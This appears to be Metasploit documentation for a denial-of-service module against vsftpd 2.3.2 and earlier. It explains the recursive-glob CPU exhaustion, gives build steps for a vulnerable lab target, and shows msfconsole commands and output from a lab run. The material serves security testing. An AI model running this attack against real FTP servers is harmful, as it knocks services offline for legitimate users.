 ## Vulnerable Application

This is an auxiliary for DOSing a VSFTPD server from version 2.3.2 and below. The
vulnerability has been directly tested on versions 2.3.0, 2.3.1, and 2.3.2 and have
shown success.

VSFTPD is a popular ftp server written in C. The vulnerability causes a DOS on
the service by leveraging a long recursive glob statement on the server. When
we fill the 4096 character buffer with this recursive glob search, it makes the
current thread spend all of that time unwinding that glob statement which can
use up all the resources on that core. Sending this glob on all threads leave no
availability for anyone else to access the server while taking up all of the CPU
resources of the machine.

## Options

### FTPUSER
The username used to log into the FTP server

### FTPPASS
The password used to log into the FTP server

### Install on Arch Linux

The software has been tested on multiple versions using arch linux. To create an
installable package for the vulnerable software to test, follow these instructions.

1. Clone the source repository using `git clone https://gitlab.archlinux.org/archlinux/packaging/packages/vsftpd.git`
2. Replace the contents of the PKGBUILD with this

```pkgbuild
pkgname=vsftpd
pkgver=2.3.2
pkgrel=1
pkgdesc='Very Secure FTP daemon'
url='https://security.appspot.com/vsftpd.html'
arch=('x86_64')
license=('GPL2')
depends=('glibc' 'openssl' 'libcap' 'pam' 'libnsl')
optdepends=('logrotate')
backup=('etc/vsftpd.conf'
        'etc/xinetd.d/vsftpd'
        "etc/logrotate.d/vsftpd")
source=(https://security.appspot.com/downloads/${pkgname}-${pkgver}.tar.gz
        vsftpd-ssl.socket
        vsftpd.socket
        vsftpd.service
        vsftpd@.service
        vsftpd-ssl.service
        vsftpd-ssl@.service)
sha256sums=('SKIP'
            'd5185e48fffc6253499a55e0fe0f90a3424fc639640af11a9d38df33fb145afe'
            '9fdbfd2ec0207170371ca3cf2b0ddca2dc2fe3d062e5792e0d3e51474c3198c9'
            '0597e571718ba0f4dc4b32a4ddd148103758c48c7d65dcb8bbedafc9e810e83d'
            'd7b8e4827d4f6bafcbf52f9d2d7380958c7b08bb3f757806aa89d4bc06c9671c'
            'b88a50fc68b3bf746d13c9a777df77791cd3eac6eb7c2df655418071c2adf422'
            '4a55c2468b08d858f71bacf1f4885847bec8e548b0e92088068d9bdd3884af84')

prepare() {
  cd ${pkgname}-${pkgver}
  # build-time config
  sed -e 's|^#undef VSF_BUILD_SSL$|#define VSF_BUILD_SSL|' -i builddefs.h
  sed -e 's|/usr/share/empty|/var/empty|g' -i tunables.c vsftpd.conf.5 INSTALL
  sed -e 's|/usr/local/sbin/vsftpd|/usr/bin/vsftpd|' -i EXAMPLE/INTERNET_SITE/${pkgname}.xinetd

  # fix linking to openssl 1.1
  sed -e 's|SSL_library_init|SSL_CTX_new|' -i vsf_findlibs.sh
}

build() {
  cd ${pkgname}-${pkgver}
  make LINK='' CFLAGS="${CFLAGS} ${CPPFLAGS}" LDFLAGS="${LDFLAGS}"
}

package() {
  cd ${pkgname}-${pkgver}

  install -Dm 755 ${pkgname} -t "${pkgdir}/usr/bin"
  install -dm 755 "${pkgdir}/var/empty"
  install -Dm 644 "${srcdir}"/{*.service,*.socket} -t "${pkgdir}/usr/lib/systemd/system"

  install -Dm 644 ${pkgname}.conf -t "${pkgdir}/etc"
  install -Dm 644 EXAMPLE/INTERNET_SITE/${pkgname}.xinetd "${pkgdir}/etc/xinetd.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.log "${pkgdir}/etc/logrotate.d/${pkgname}"
  install -Dm 644 RedHat/vsftpd.pam "${pkgdir}/etc/pam.d/${pkgname}"

  install -Dm 644 ${pkgname}.8 -t "${pkgdir}/usr/share/man/man8"
  install -Dm 644 ${pkgname}.conf.5 -t "${pkgdir}/usr/share/man/man5"
  install -Dm 644 BENCHMARKS BUGS Changelog FAQ INSTALL README README.ssl REFS \
    REWARD SPEED TODO TUNING -t "${pkgdir}/usr/share/doc/${pkgname}"
}
```

3. If you want to test a different version, Change the version variable to your
desired version.
4. Run `makepkg -i` to build the package and automatically install it.
5. Start the systemd service with `sudo systemctl start vsftpd`

### Docker install on Arch Linux

A simple container was created to easily test this vulnerability. To easily run a
vulnerable instance of this application, build this image from this Dockerfile.

1. Create a `Dockerfile` and place the content below into it

```dockerfile
FROM archlinux:latest
ARG VERSION=2.3.2
RUN pacman -Sy --noconfirm gcc make libnsl
RUN curl -O https://security.appspot.com/downloads/vsftpd-$VERSION.tar.gz
RUN tar zxf vsftpd-$VERSION.tar.gz
WORKDIR /vsftpd-$VERSION
RUN make
RUN mkdir -p /usr/share/empty/
RUN chmod +x /vsftpd-$VERSION/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd /bin/vsftpd
RUN mv /vsftpd-$VERSION/vsftpd.conf /etc/vsftpd.conf
RUN chown root:root /etc/vsftpd.conf
EXPOSE 21
CMD [ "/bin/vsftpd" ]
```

2. Run `sudo docker build . -t vsftpd:2.3.2 --build-arg=2.3.2`
3. Run `sudo docker run --name vsftpd -p 21:21 vsftpd:2.3.2`

Run the module against this container and the container will either slow down or crash entirely.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/dos/ftp/vstfpd_232`
3. `set rhosts`
4. `set ftpuser`
5. `set ftppass`
6. `run`

## Scenarios

### VSFTPD 2.3.2 - Arch linux

```
msf > use auxiliary/dos/ftp/vsftpd_232
msf auxiliary(dos/ftp/vstfpd_232) > set rhosts 192.168.56.106
rhosts => 192.168.56.106
msf auxiliary(dos/ftp/vstfpd_232) > set ftpuser anonymous
ftpuser => anonymous
msf auxiliary(dos/ftp/vstfpd_232) > set ftppass ''
ftppass => 
msf auxiliary(dos/ftp/vstfpd_232) > run
[*] Running module against 192.168.56.106

[*] 192.168.56.106:21 - sending payload
.............................................................................................
[+] 192.168.56.106:21 - Stream was cut off abruptly. Appears DOS attack succeeded.
[*] Auxiliary module execution completed
```

You can verify that it works by either attempting to ftp into the machine after or checking
htop on the machine. If the CPU is at max capacity, that would be due to the DOS.
